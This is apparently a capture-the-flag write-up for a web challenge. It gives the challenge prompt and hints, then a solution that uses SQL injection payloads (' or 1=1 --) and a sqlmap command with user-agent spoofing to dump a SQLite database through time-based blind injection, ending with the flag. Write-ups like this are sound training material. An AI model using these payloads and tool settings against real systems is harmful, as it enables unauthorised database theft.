


# The SQL Always Sucks #

**Category:**	Web Security  
**Points:**	150

**Prompt:** 
* We discovered an application in our environment that is apparently under development. Please identify the risk it poses. http://challenge.acictf.com:28986
* Note: Solutions to this problem are known to be sensitive to connection latency. If your solution is working but very slowly, you may be able to speed up the process by running it from the competition's shell server.

**Hints:** 
* It's sometimes useful to know what kind of database is behind a webapp before trying to attack it. It can save you time and really narrow your efforts. I wonder if the developers accidentally left any clues laying around.
* SQL injection attacks don't always result in you getting raw database contents sent directly back to you. Sometimes it is all about patience and timing.
* Some attacks just are not practical to do by hand because they require precision and lots of repetition. Thankfully, tools like sqlmap can automate much of this for you. It even comes pre-installed on our shell server!
* Many tools use unique user-agent strings by default. If you notice that curl or sqlmap don't appear to be working properly, you may need to look into whether you can configure them to "impersonate" something else.


**Solution:**
* Try simple injection: 
```
' or 1=1 -- 
```
* 
* Source code gives a hint
    * 
* So they are using sqlite and Brantly popped as a users lastname
```
any' or 1=1 order by 1;#
```
* 
* Try sqlmap
    * First run didn't work, but it gave a warning to try running as random agent
```
sqlmap -u http://challenge.acictf.com:28986/?firstname= --dbms=sqlite --crawl=1 --random-agent --level=5 --risk=3
```
* It identified that it's vulnerable to time-based attacks
* Rerun with --dump to dump the database
* After a few hours:
    * ACI{59df47a3243d2f239ea878a7266}


